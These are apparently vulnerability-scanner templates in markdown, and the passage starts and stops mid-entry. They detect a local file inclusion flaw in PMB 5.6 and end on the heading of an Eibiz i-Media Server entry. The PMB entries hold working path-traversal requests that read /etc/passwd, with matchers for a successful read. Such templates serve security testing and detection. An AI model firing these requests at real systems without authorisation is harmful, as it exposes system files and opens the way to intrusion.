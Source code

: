 ### URL

- {{BaseURL}}/pmb/opac_css/getgif.php?chemin=../../../../../../etc/passwd&nomgif=nuclei

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. root:x:0

---

# PMB 5.6 - Local File Inclusion

## Description

- PMB 5.6 is vulnerable to local file inclusion because the PMB Gif Image is not sanitizing the content of the 'chemin' parameter.
- severity - high
- tags - lfi,packetstorm

## Requests

- Method - GET

### URL

- {{BaseURL}}/opac_css/getgif.php?chemin=../../../../../../etc/passwd&nomgif=tarik
- {{BaseURL}}/pmb/opac_css/getgif.php?chemin=../../../../../../etc/passwd&nomgif=tarik

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Eibiz i-Media Server Digital Signage 3.8.0 - Local File Inclusion
